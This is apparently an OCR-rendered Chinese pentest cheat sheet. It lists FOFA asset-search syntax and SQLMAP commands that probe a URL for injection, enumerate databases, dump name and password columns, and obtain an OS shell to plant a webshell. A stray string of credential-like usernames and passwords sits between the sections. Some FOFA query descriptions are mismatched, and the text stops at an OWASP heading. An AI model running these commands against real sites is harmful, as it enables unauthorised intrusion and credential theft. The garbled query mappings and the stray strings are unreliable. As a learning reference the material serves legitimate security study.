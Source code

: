 title="beijing" 从标题中搜索"北京" -header="elastic" 从http头中搜索"elastic" -body="网络空间测绘" 从html正文中搜索"网络空间测绘" -domain="qq.com" 搜索根域名带有qq.com的网站。 -icp="京ICP证030173号" 查找备案号为"京ICP证030173号"的网站 搜索网站类型资产js_name="js/jquery.js" 查找包含js/jquery.js的资产 搜索网站类型资产js_md5="82ac3f14327a8b7ba49baa208d4eaa15" 查找js源码与之匹配的资产 -icon_hash="-247388890" 搜索使用此icon的资产。 仅限FOFA高级会员使用host=".gov.cn" 从url中搜索".gov.cn" 搜索要用host作为名称port="6379" 查找对应"6379"端口的资产 -ip="1.1.1.1" 从ip中搜索包含"1.1.1.1"的网站 搜索要用ip作为名称ip="220.181.111.1/24" 查询IP为"220.181.111.1"的C网段资产 -status_code="402" 查询服务器状态为"402"的资产 -protocol="quic" 查询quic协议资产 搜索指定协议类型(在开启端口扫描的情况下有效)country="CN" 搜索指定国家(编码)的资产。 -region="Xinjiang" 搜索指定行政区的资产。 -city="Changsha" 搜索指定城市的资产。 -cert="baidu" 搜索证书中带有baidu的资产。 -cert.subject="Oracle" 搜索证书持有者是Oracle的资产 -cert.issuer="DigiCert" 搜索证书颁发者为DigiCert Inc的资产 -cert.is_valid=true 验证证书是否有效 仅限FOFA高级会员使用type=service 搜索所有协议资产 搜索所有协议资产os="centos" 搜索CentOS资产。 -server=="Microsoft-IIS" 搜索IIS 10服务器。 -app="Oracle" 搜索Microsoft-Exchange设备 -after="2017" && before="2017-10-01" 时间范围段搜索 -asn="19551" 搜索指定asn的资产。 -org="Amazon.com, Inc." 搜索指定org(组织)的资产。 -base_protocol="udp" 搜索指定udp协议的资产。 -is_fraud=falsenew 排除仿冒/欺诈数据 -is_honeypot=false 排除蜜罐数据 仅限FOFA高级会员使用is_ipv6=true 搜索ipv6的资产 搜索ipv6的资产,只接受true和false。is_domain=true 搜索域名的资产 搜索域名的资产,只接受true和false。port_size="6" 查询开放端口数量等于"6"的资产 仅限FOFA会员使用port_size_gt="6" 查询开放端口数量大于"6"的资产 仅限FOFA会员使用port_size_lt="12" 查询开放端口数量小于"12"的资产 仅限FOFA会员使用ip_ports="80,161" 搜索同时开放80和161端口的ip 搜索同时开放80和161端口的ip资产(以ip为单位的资产数据)ip_country="CN" 搜索中国的ip资产。 搜索中国的ip资产ip_region="Zhejiang" 搜索指定行政区的ip资产。 索指定行政区的资产ip_city="Hangzhou" 搜索指定城市的ip资产。 搜索指定城市的资产ip_after="2021-03-18" 搜索2021-03-18以后的ip资产。 搜索2021-03-18以后的ip资产ip_before="2019-09-09" 搜索2019-09-09以前的ip资产。 搜索2019-09-09以前的ip资产

**baolima123Jyg2923118185072711064422002nancy791109mahong791109mohanzhangzmh04092381167966NANCY791109wenxin101tmnch**



### SQLMAP用法

判断某个URL是否有注入点：sqlmap -u https://bbskali.cn?id=1

当url后面的参数大于等于两个时，对url加""sqlmap -u "https://bbskali.cn?id=1&uid=2"

基于POST/GET注入： sqlmap -r bbskali.txt

查询当前数据库sqlmap -u https://bbskali.cn?id=1 --dbs

查询数据库中的表-D指定数据库名sqlmap -u https://bbskali.cn?id=1 -D KALI --tables

-T 指定表名sqlmap -u https://bbskali.cn?id=1 -D kali -T user --columns

获取表中的字段内容-C 指定字段名，多个字段用,分开。sqlmap -u https://bbskali.cn?id=1 -D kali -T user -C "name,password" --dump

level 探测等级--level需要执行的测试等级，一共有5个等级(1-5)，可不加level，默认是1。SQLMap使用的Payload可以在xml/payloads.xml中看到，也可以根据相应的格式添加自己的Payload，其中5级包含的Payload最多，会自动破解出cookie，XFF等头部注入。当然，level越高，运行速度也比较慢。

referer  SQLMap可以在请求中伪造HTTP中的referer, 当-level参数设定为3或3以上时,会尝试对referer注入。可以使用referer命令来欺骗,如--referer http://bbskali.cn

利用此命令，我们可以给目标服务器写入相关的一句话shell。但是唯一的缺点就是你要知道站点的根目录。如phpstudy的目录D:\phpstudy_pro\WWW使用命令如下：sqlmap -u https://bbskali.cn?id=1 --os-shell

基于波尔盲注时间的盲注报错注入堆查询注入sqli-labs 是一款学习sql注入开源平台，75种不同类型的注入



### OWASP TOP 10 

##### CSRF（客户端跨站伪造请求）
